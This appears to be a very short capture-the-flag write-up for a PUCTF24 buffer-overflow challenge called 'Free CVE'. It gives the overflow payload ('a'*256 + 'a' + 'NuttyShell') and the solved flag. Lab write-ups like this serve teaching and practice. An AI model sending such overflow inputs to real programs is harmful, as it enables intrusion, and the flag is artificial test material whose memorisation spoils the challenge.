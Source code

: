 ## Free CVE 免費CVE

0x100 = 256
Send 'a'*256 + 'a' + 'NuttyShell'

PUCTF24{51mpl3_buff3r_0v3rfl0w_fe5af2bff499abaa67efa425abf8b6cd}